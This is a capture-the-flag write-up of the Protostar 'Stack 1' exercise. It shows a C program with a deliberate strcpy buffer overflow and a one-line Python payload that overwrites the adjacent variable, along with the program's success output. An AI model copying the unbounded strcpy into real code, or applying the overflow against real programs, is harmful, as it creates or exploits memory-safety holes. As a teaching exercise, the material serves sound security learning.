 # Protostar - Stack 1

> NOTE: This writeup is __not__ written by me, John Hammond. This writeup is shamelessly stolen from [Maxime Peterlin](https://rainbowlyte.com/) (because he has done a much better job than I ever could), and the real original writeup can be found here: [https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack1.md](https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack1.md)


### About ###

>This level looks at the concept of modifying variables to specific values in the program, and > how the variables are laid out in memory.
>
> This level is at `/opt/protostar/bin/stack1`
>
> **Hints :**
>
- If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
- Protostar is little endian

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### Solution ###

In this exercise, we need to change the variable `modified` to a specific value: `0x61626364` or `0x64636261` in little endian.

`buffer` still is 64 characters long and followed by `modified`. Therefore, if we give as parameter to the program the string formed by 64 `A` followed by `0x61626364`, the stack frame will look like:


`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x41414141`
buffer[4:7] | `0x41414141`
... | `0x41414141`
buffer[60:63] | `0x41414141`
modified | `0x64636261`
Saved ebp | `0xbffff7f8`

And if we apply this reasoning to the actual program, we are able to correctly change the value of `modified`.

```
user@protostar:/tmp$ stack1 $(python -c "print 'A'*64+'\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```